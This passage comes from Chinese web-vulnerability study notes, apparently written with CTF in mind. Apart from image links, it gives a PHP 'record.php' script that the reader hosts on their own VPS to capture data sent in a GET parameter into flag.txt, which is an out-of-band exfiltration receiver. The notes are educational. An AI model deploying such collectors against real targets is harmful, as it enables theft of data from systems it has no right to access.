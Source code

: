 

![img](PictureFile/【Web】TOP漏洞.assets/v2-b5b91c2cc14fae914b3f573372f64e33_720w.png)

![img](PictureFile/【Web】TOP漏洞.assets/v2-ead1d94fc19457b542e8ccf9c1cf5dea_720w.webp)

![img](PictureFile/【Web】TOP漏洞.assets/v2-d64848931638b00f35bd1b03a069b3c7_720w.webp)

![img](PictureFile/【Web】TOP漏洞.assets/v2-d64848931638b00f35bd1b03a069b3c7_720w.webp)

**方法二、**

用vps建立记录脚本

**1、首先在自己的公网ip的网站目录下建立一个record.php的文件，里面写下如下代码**

```text
<?php
    $data =$_GET['data'];
    $f = fopen("flag.txt", "w");
    fwrite($f,$data);
    fclose($f);
    ?>
```
